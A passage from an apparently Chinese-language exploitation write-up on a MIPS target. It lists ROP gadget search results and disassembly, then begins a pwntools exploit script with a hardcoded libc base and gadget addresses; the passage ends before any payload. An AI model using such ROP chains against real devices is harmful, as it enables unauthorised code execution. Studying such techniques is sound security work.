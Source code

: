```
  |  0x0012F4A8  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x0013032C  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00130344  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00132C58  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00133888  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x0013733C  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00137354  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00137CDC  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00137CF4  |  move $t9,$a1                                        |  jr    $a1                             |
  ----------------------------------------------------------------------------------------------------------------
  Found 11 matching gadgets
```
這裏使用的是 
```
  .text:0012568C                 move    $t9, $a1
  .text:00125690                 move    $a3, $v0
  .text:00125694                 move    $a1, $a0
  .text:00125698                 jalr    $t9
```
最後的 exploit

```python
from pwn import *
# context.log_level = 'debug'
  
libc_base = 0x7f61f000
set_a0_addr = 0xE2660
#.text:000E2660                 move    $t9, $s2
#.text:000E2664                 jalr    $t9 ; sigprocmask
#.text:000E2668                 li      $a0, 1
set_s2_addr = 0xB2EE8
#.text:000B2EE8                 lw      $ra, 52($sp)
#.text:000B2EF0                 lw      $s6, 48($sp)
#.text:000B2EF4                 lw      $s5, 44($sp)
#.text:000B2EF8                 lw      $s4, 40($sp)
#.text:000B2EFC                 lw      $s3, 36($sp)
#.text:000B2F00                 lw      $s2, 32($sp)
#.text:000B2F04                 lw      $s1, 28($sp)
#.text:000B2F08                 lw      $s0, 24($sp)
#.text:000B2F0C                 jr      $ra
jr_t9_jr_ra = 0x949EC
# .text:000949EC                 move    $t9, $s3
# .text:000949F0                 jalr    $t9 ; uselocale
# .text:000949F4                 move    $s0, $v0
# .text:000949F8
# .text:000949F8 loc_949F8:                               # CODE XREF: strerror_l+15C↓j
# .text:000949F8                 lw      $ra, 0x34($sp)
# .text:000949FC                 move    $v0, $s0
# .text:00094A00                 lw      $s3, 0x24+var_sC($sp)
# .text:00094A04                 lw      $s2, 0x24+var_s8($sp)
# .text:00094A08                 lw      $s1, 0x24+var_s4($sp)
# .text:00094A0C                 lw      $s0, 0x24+var_s0($sp)
# .text:00094A10                 jr      $ra
addiu_a1_sp = 0x95B74
```